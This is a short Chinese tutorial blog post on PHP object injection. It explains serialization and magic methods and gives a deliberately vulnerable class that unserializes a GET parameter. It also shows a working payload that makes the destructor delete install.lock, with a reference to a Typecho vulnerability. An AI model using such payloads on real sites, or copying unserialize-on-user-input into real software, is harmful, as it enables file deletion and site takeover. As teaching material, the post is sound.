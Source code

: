 ```yaml
---
title: "PHP 对象注入"
date: 2018-05-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['编程']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


序列化 (serialize) 指将 PHP 变量/数组/函数/类 转换为可保存或传输的过程, 再通过反序列化 (unserialize) 转换为原来的数据使用.

<!--more-->

关于反序列化 有 3 个魔术方法.

```
__destruct - 程序结束时调用
__wakeup - 类被反序列化时调用
__toString - 类被作为字符串时调用
```

# Example 1

```
class Test{
	var $name = 'hello';
	public function __destruct(){
		echo $this->name;
	}
```

该类实例化后将在程序结束时打印出 name 的值.

更改 name 的值, 之后序列化.

```
$test = new Test();
$test->name = 'world';
echo serialize($test);

O:4:"Test":1:{s:4:"name";s:5:"world";}
```

反序列化.

```
$u = unserialize('O:4:"Test":1:{s:4:"name";s:5:"world";}');
```

```
world
```

# Example 2

```
class FileClass{

	var $filename;
	var $content;

	public function __construct($filename,$content){
		$this->filename = $filename;
		$this->content = $content;
	}

	public function write($content){
		file_put_contents($this->filename,$content);
	}

	public function __destruct(){
		echo 'clean file'.$this->filename;
		@unlink($this->filename);
	}
}

$u = unserialize($_GET['u']);
?>
```

利用

```
class FileClass{
	var $filename = 'install.lock';
}
echo serialize(new FileClass());
```

GET 传递 `O:9:"FileClass":1:{s:8:"filename";s:12:"install.lock";}`

```
clean file install.lock
```

# Other

参考 Typecho install.php 反序列化漏洞

https://paper.seebug.org/424/
